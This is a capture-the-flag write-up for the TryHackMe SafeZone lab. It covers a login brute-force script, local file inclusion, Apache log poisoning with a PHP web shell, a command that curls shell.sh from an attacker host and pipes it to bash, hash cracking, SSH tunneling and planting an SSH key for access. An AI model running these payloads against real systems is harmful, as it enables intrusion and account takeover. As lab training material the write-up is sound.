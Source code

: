 # 76 - SafeZone (LFI Log Poisoning, SSH Tunneling)

Room Link --> [https://tryhackme.com/room/safezone](https://tryhackme.com/room/safezone)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.90.206

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.90.206 -w /usr/share/dirb/wordlists/common.txt -x txt,php,sh,cgi,html,zip,bak,sql -b 404,403

/dashboard.php
/detail.php
/index.php
/index.html
/note.txt
/logout.php
/news.php
/register.php
```
{% endcode %}

Navigating to `index.php` .

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Trying default credentials like admin, password, etc but it seems there is rate limiting.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking `/note.txt` .

{% code overflow="wrap" %}
```
Message from admin :-

I can't remember my password always , that's why I have saved it in /home/files/pass.txt file .
```
{% endcode %}

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Create a new account in `/register.php` .

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`/news.php`&#x20;

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`/detail.php`&#x20;

```
<!-- try to use "page" as GET parameter-->
```

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got a GET parameter to use, and remember the `/note.php` text we found too.

So i checked walkthrough, the most reasonable one i saw admitted to using this wordlist:

```
/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
```

Which had the new directory in it.

{% code overflow="wrap" %}
```bash
gobuster dir -e -u http://safezone.thm/ -t30 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x txt,php

/~files
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got a hint for admin password.

```
Admin password hint :-

		admin__admin

				" __ means two numbers are there , this hint is enough I think :) "

```

In here I got the definitive username and the password. But there had to be two numbers in between. Because that was the only hint, I had to try all the different numeric combinations. But I still had in mind, that I only had three login attempts. So I set up the numeric combinations with Python and saved it to a file.

```bash
for i in {0..99}; do echo $i; done > numbers.txt
```

I manually edited the one digit numbers at the beginning to fit the scheme (from 0 to 00 and 1 to 01). With that prepared I ran it with wfuzz sleeping for 21 seconds per requests.

#### POST Login request bruteforce using wfuzz

{% code overflow="wrap" %}
```bash
wfuzz -c -z file,numbers.txt -d "username=admin&password=adminFUZZadmin&submit=Submit" -X POST -u http://safezone.thm/index.php -s 21
```
{% endcode %}

But i wrote my own bash script to automate this  well.

```bash
#!/bin/bash

url="http://safezone.thm/index.php"

for i in $(seq 10 99); do
    echo "[-]trying $i"
    response=$(curl -s -X POST -d "username=admin&password=admin${i}admin&submit=Submit" "$url")
    if ! echo "$response" | grep -qE "To many failed login attempts. Please login after 60 sec | Please enter valid login details"; then
        echo "[+]Correct password found: $i"
        break
    fi
    sleep 21
done
```

<figure><img src=".gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

We got our correct password then.

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Going to the `/detail.php` dir, then using the "page" parameter we get LFI.

[http://10.10.148.163/detail.php?page=/etc/passwd](http://10.10.148.163/detail.php?page=/etc/passwd)

<figure><img src=".gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

So i used SecsList to Bruteforce for other sensitive files i can read, and i was able to read the `access.log` file, so we can do Log Poisoning attack.

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

```php
<?php system($_GET['cmd']); ?>
```

So we intercept the request to read the apache log file and inject this to the User-agent field:

<figure><img src=".gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

So its working.

<figure><img src=".gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Got a bash oneliner from payloadallthethings, save it in a shell.sh file setup NC, host it using `python3 -m http.server` then execute it using:

[http://10.10.148.163/detail.php?page=/var/log/apache2/access.log\&cmd=curl%20http://10.18.88.214/shell.sh|bash](http://10.10.148.163/detail.php?page=/var/log/apache2/access.log\&cmd=curl%20http://10.18.88.214/shell.sh|bash)

And i got shell.

<figure><img src=".gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to files user

Looked around Files home dir, and there is a `.something#fake_can@be^here` file containing password hash for Files user.

{% code overflow="wrap" %}
```bash
www-data@safezone:/home/files$ cat '.something#fake_can@be^here'
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```
{% endcode %}

Cracked it using john

`magic`&#x20;

Login via ssh and it worked.

### Priv Esc to Yash user

`sudo -l`&#x20;

<figure><img src=".gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

I looked around the server for a while. When I looked for opened ports locally I found a second web application on port 8000.

`ss -tulnp` .

### Port Tunneling

Using SSH Tunneling to open the remote port on my kali

`ssh -L 8000:localhost:8000 files@safezone.thm -fN` .

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://localhost:8000 -w /usr/share/dirb/wordlists/common.txt -x php,txt -b 404,403

/pentest.php
```
{% endcode %}

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Most of the cmds were blocked.

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

SO whatever cmd we are entering in the terminal is been executed on the machine as `yash` user.

What i did was create a `.ssh` folder in `/home/yash/` then add my kali ssh public key into the authorized\_keys file and ssh into yash account and it worked.

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root

Now as the user “yash” I got another output for the `sudo -l` command.

I tested the full command by simply executing it.

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Done!

